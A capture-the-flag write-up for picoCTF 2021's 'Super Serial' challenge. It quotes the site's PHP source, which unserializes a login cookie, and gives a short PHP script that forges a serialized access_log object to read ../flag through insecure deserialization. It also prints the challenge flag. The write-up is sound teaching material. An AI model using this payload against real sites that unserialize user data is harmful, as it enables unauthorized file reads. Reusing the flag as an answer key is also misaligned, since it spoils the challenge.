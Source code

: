 # Super Serial
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF2021

Description:  
Try to recover the flag stored on this website (http://mercury.picoctf.net:2148/)

Hints: 
1. The flag is at ../flag  
```
## Overview
![alt text](/picoCTF/Static/Images/Super_serial/image.png)
## Solution
**Step1:** Recon  
We don't know anything about login information, I tried to log in with a random account and it obviously refused.  
After looking at the source, I don't see anything special  
Try accessing `/robots.txt`  

![alt text](/picoCTF/Static/Images/Super_serial/image2.png)  
* I see there is an endpoint that I cannot access, it uses the `phps` extension  

I tried accessing `/index.phps` instead of `/index.php`  
And it provides us with a html snippet and a php snippet  
```PHP
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
* Here we can see how the website handles cookie content  
* In short, the web will initially check to see what role we have successfully logged in with, creating a cookie from the `$perm_res` object using the process : serialize()->base64encode()->urlencode()  
* The code also provides us with an endpoint `/authentication.php`, let's try accessing it  

![alt text](/picoCTF/Static/Images/Super_serial/image3.png)  
* Visit `/authentication.phps` to view the source  
```PHP
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* The code shows us that the web has initialized an access_log class, which can provide us with a place to exploit POP by passing the file path into `$log_file`  
* Remember: we have complete control over the object that is `unserialized` from the cookie.  
* At this point we can vaguely guess how to exploit it, let's look at the final endpoint `/cookie.phps`  
```PHP
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
* This is the line of code that confirms our guess  
`$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));`  
    * What it does?: It retrieves the "login" cookie from the user's browser.  
    * Who does it trust?: It blindly believes that this cookie content is a secure permissions object created by itself.  

**Step2:** Exploit  
Use burpsuite to catch requests  
First, grasp the mining mindset  
We will try to create a login cookie and pass parameters to it as in the example below  

![alt text](/picoCTF/Static/Images/Super_serial/image4.png)
* The website reported a Deserialization error, after the error is what we will continue to exploit  
* I followed the website's cookie creation logic to try creating a php code  
```php
<?php
print(urlencode(base64_encode(serialize("hello"))));
?>
```  
* Take the results and put them in cookies  

![alt text](/picoCTF/Static/Images/Super_serial/image5.png)  
* It can be seen that the web actually printed an error similar to the one we passed in  

* From the hint, we know the flag is hidden at `../flag`  
* Now let's create a payload to exploit based on the access_log class  
```PHP
<?php
class access_log
{
	public $log_file="../flag";
}
print(urlencode(base64_encode(serialize(new access_log()))));
?>
```
![alt text](/picoCTF/Static/Images/Super_serial/image6.png)  
This article tells us more about the Insecure Deserialization vulnerability, through which we should draw some experience that  
* NEVER unserialize() data from users  
* Cookies are used for "Identification", not for "Storage"  
## Flag
`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`